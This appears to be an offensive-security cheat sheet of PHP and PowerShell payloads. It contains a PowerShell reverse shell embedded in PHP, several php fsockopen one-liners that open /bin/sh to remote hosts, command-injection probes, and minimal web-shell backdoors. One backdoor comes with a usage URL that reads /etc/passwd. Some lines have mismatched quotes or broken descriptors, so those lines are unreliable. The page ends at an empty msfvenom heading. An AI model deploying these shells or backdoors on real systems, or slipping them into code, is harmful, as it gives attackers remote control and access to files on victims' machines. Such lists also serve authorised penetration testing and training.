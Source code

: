 #### windows

```
<?php echo shell_exec("powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.56.1',5555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -Name System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"")?>
```

### php one-liner

This code assumes that the TCP connection uses file descriptor 3.f it doesn’t work, try 4, 5, 6…

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;'
php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

Try this first

```
message=test;phpinfo(); 
message=test;system(‘ls -la’); 

<?php echo exec($_REQUEST['c']);?>
```

​​Try this next if the first doesn't work

```
<?php echo exec($_GET['c']); ?>

<?php -r '$sock=fsockopen(10.11.0.220",1234);exec("/bin/sh -i <&d >&%d 2>&%d",f,f,f)' ?>
```

#### Simple PHP Backdoor By DK (One-Liner Version)

Usage:

```
http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd 

 <?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>


php -r '$sock=fsockopen(10.11.0.220",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### msfvenom
